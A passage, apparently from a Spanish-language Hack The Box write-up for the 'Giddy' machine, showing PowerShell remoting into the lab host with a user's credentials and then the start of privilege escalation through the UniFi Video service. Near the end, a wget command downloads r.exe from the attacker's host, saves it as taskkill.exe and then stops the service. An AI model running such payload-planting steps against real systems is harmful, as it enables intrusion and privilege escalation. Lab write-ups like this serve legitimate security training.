Un poco mas de información al respecto puede ser consultado [aquí](https://blog.quickbreach.io/ps-remote-from-linux-to-windows/).

Comenzamos por descargar y ejecutar la instancia:

```
xbytemx@laptop:~/htb/giddy$ docker run -it quickbreach/powershell-ntlm
Unable to find image 'quickbreach/powershell-ntlm:latest' locally
latest: Pulling from quickbreach/powershell-ntlm
aeb7866da422: Pull complete
2011ef2c2dfb: Pull complete
43e50d384a14: Pull complete
9b8c213e2ea6: Pull complete
580adfdbbe6e: Pull complete
e6ec163021cb: Pull complete
Digest: sha256:81cb6748bbf055f65de83f62d91e924d9ff674b9a9223ad6e02c425db12b6a32
Status: Downloaded newer image for quickbreach/powershell-ntlm:latest
PowerShell 6.1.1

https://aka.ms/pscore6-docs
Type 'help' to get help.

PS />
```

Ahora generamos las credenciales y probaremos una conexión al servidor:

```
PS /> $creds = Get-Credential

PowerShell credential request
User: stacy
Password for user stacy: ************

PS /> Enter-PSSession -ComputerName 10.10.10.104 -Authentication Negotiate -Credential $creds
[10.10.10.104]: PS C:\Users\Stacy\Documents> ls


    Directory: C:\Users\Stacy\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/16/2019   1:04 AM                WindowsPowerShell
-a----        2/16/2019   1:07 AM             14 unifivideo

```

Boom, estamos adentro.

# user.txt

> type c:\Users\Stacy\Desktop\user.txt


[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService